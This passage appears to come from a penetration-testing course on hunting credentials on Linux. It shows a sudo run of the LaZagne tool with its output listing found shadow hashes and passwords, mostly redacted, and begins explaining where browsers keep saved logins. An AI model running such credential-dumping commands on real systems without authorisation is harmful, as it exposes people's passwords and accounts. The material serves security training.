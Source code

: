 An even more powerful tool we can use that was mentioned earlier in the Credential Hunting in Windows section is LaZagne. This tool allows us to access far more resources and extract the credentials. The passwords and hashes we can obtain come from the following sources but are not limited to:

![image](https://user-images.githubusercontent.com/24814781/204114482-67a0a9d5-e590-48bb-8a2e-7f55008b2ce4.png)

For example, Keyrings are used for secure storage and management of passwords on Linux distributions. Passwords are stored encrypted and protected with a master password. It is an OS-based password manager, which we will discuss later in another section. This way, we do not need to remember every single password and can save repeated password entries.

## Memory - LaZagne
```
cry0l1t3@unixclient:~$ sudo python2.7 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Hash found !!!
Login: systemd-coredump
Hash: !!:18858::::::

[+] Hash found !!!
Login: --REDACTED--
Hash: --REDACTED--

[+] Password found !!!
Login: --REDACTED--
Password: --REDACTED--


[+] 3 passwords have been found.
For more information launch it again with the -v option

elapsed time = 3.50091600418
```

## Browsers

Browsers store the passwords saved by the user in an encrypted form locally on the system to be reused. For example, the Mozilla Firefox browser stores the credentials encrypted in a hidden folder for the respective user. These often include the associated field names, URLs, and other valuable information.
